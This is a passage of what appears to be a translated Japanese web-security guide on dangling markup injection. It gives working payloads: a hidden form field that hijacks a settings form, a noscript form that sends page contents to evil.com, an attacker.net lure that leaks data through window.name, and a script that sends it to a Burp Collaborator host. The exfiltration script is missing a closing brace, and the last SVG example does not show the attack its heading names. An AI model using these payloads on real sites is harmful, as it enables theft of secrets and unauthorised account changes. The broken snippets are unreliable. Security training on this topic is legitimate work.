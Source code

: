 フォームのパスを変更し、新しい値を挿入することで、予期しないアクションが実行される可能性があります。
```markup
<form action='/change_settings.php'>
<input type='hidden' name='invite_user'
value='fredmbogo'>                                        ← Injected lines

<form action="/change_settings.php">                        ← Existing form (ignored by the parser)
...
<input type="text" name="invite_user" value="">             ← Subverted field
...
<input type="hidden" name="xsrf_token" value="12345">
...
</form>
```
### noscriptを使用した平文の秘密情報の盗み出し

`<noscript></noscript>`は、ブラウザがJavaScriptをサポートしていない場合に解釈されるタグです（Chromeでは[chrome://settings/content/javascript](chrome://settings/content/javascript)でJavaScriptを有効/無効にすることができます）。

攻撃者が制御するサイトに、インジェクションポイントからページの最下部までのコンテンツを盗み出す方法は、次のようにインジェクションすることです：
```markup
<noscript><form action=http://evil.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=""><textarea name=contents></noscript>
```
### ユーザーの操作を利用してCSPをバイパスする

この[ポートスウィガーの研究](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)から、**最もCSPが制限された**環境でも、**ユーザーの操作**を利用してデータを**外部に漏洩**することができることがわかります。今回は、以下のペイロードを使用します：
```markup
<a href=http://attacker.net/payload.html><font size=100 color=red>You must click me</font></a>
<base target='
```
注意してください。**被害者**に対して、あなたが制御する**ペイロード**に**リダイレクト**する**リンクをクリック**するように依頼します。また、**`base`**タグ内の**`target`**属性には、次のシングルクォートまでの**HTMLコンテンツ**が含まれることに注意してください。\
これにより、リンクがクリックされた場合の**`window.name`**の**値**は、その**HTMLコンテンツ**全体になります。したがって、リンクをクリックして被害者がアクセスしているページを制御しているため、**`window.name`**にアクセスしてそのデータを**外部に漏洩**することができます。
```markup
<script>
if(window.name) {
new Image().src='//your-collaborator-id.burpcollaborator.net?'+encodeURIComponent(window.name);
</script>
```
### 誤解を招くスクリプトのワークフロー1 - HTMLネームスペース攻撃

次のタグを上書きし、スクリプトのフローに影響を与える値を持つ、HTML内に新しいタグを挿入します。この例では、情報を共有する相手を選択します。

```html
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <script>
    var target = document.getElementById('target');
    var shareWith = target.getAttribute('data-share-with');
    // Perform actions based on the value of 'shareWith'
  </script>
</svg>

<div id="target" data-share-with="example@example.com"></div>
```
